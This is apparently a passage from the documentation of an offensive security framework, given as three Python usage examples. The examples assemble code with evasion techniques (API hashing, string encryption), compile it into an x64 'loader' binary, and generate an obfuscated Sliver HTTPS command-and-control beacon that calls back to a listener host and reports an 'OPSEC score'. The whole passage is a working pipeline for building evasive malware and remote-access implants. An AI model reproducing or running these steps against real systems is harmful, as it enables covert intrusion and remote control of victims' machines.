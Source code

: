 ```python
from server.code_assembler import CodeAssembler

# Initialize assembler
assembler = CodeAssembler()

# Generate code
code = assembler.assemble([
    "NOCTIS-T124",  # API hashing
    "NOCTIS-T118"   # String encryption
])

print(code)
```

### Example 2: Compile Code

```python
from compilation import get_compiler

# Get compiler for current platform
compiler = get_compiler(output_dir='compiled')

# Compile code
result = compiler.compile(
    source_code=code,
    architecture='x64',
    optimization='O2',
    output_name='loader'
)

if result['success']:
    print(f"Binary: {result['binary_path']}")
    print(f"Size: {result['size']} bytes")
```

### Example 3: Generate C2 Beacon

```python
from c2_adapters import generate_sliver_beacon

# Generate Sliver HTTPS beacon
result = generate_sliver_beacon(
    listener_host="192.168.1.100",
    listener_port=443,
    protocol="https",
    techniques=["NOCTIS-T124"],
    obfuscate=True
)

print(f"Beacon: {result.beacon_path}")
print(f"OPSEC Score: {result.opsec_score}/10")
```
